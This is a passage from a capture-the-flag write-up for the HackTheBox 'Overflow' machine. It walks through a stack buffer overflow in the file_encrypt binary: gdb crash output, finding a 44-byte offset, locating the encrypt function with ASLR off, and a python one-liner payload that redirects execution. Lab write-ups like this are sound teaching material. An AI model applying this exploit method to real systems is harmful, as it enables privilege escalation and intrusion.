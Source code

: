     0024| 0xffffcec8 --> 0x0 
    0028| 0xffffcecc --> 0xf7de0e46 (<__libc_start_main+262>:       add    esp,0x10)
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value
    Stopped reason: SIGSEGV
    0x41414641 in ?? ()
    

In a 32-bit program, the address is returned into EIP before the crash, so I
can feed it that value, “AFAA” to see the offset is 44 bytes into the name:

    
    
    gdb-peda$ pattern_offset AFAA
    AFAA found at offset: 44
    

#### Address of encrypt

If I’m going to return to `encrypt`, I need the address. Interestingly,
`checksec` says that PIE is enabled:

    
    
    oxdf@hacky$ checksec file_encrypt
    [*] '~/hackthebox/overflow-10.10.11.119/file_encrypt'
        Arch:     i386-32-little
        RELRO:    Full RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      PIE enabled
    

Luckily for me, ASLR is disabled on the server, so the code will be fixed in
memory. `gdb` on Overflow shows the address:

    
    
    tester@overflow:/opt/file_encrypt$ gdb -q file_encrypt
    Reading symbols from file_encrypt...(no debugging symbols found)...done.
    (gdb) b main
    Breakpoint 1 at 0xb70
    (gdb) r
    Starting program: /opt/file_encrypt/file_encrypt 
    
    Breakpoint 1, 0x56555b70 in main ()
    (gdb) p encrypt 
    $1 = {<text variable, no debug info>} 0x5655585b <encrypt>
    

#### Encrypt Non-Root File

At this point I have what I need to encrypt a non-root file. Because I’m
lucky, the address of `encrypt` is all ASCII character, I can just type in the
exploit:

    
    
    tester@overflow:/opt/file_encrypt$ echo "Hello world" > /tmp/0xdf
    tester@overflow:/opt/file_encrypt$ python3 -c 'print("A"*44 + "\x5b\x58\x55\x56")'
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[XUV
    tester@overflow:/opt/file_encrypt$ ./file_encrypt 
    This is the code 1804289383. Enter the Pin: -202976456
    name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[XUV
    Thanks for checking. You can give your feedback for improvements at developer@overflow.htb
    Enter Input File: /tmp/0xdf
    Enter Encrypted File: /tmp/0xdf-enc
    Segmentation fault (core dumped)
    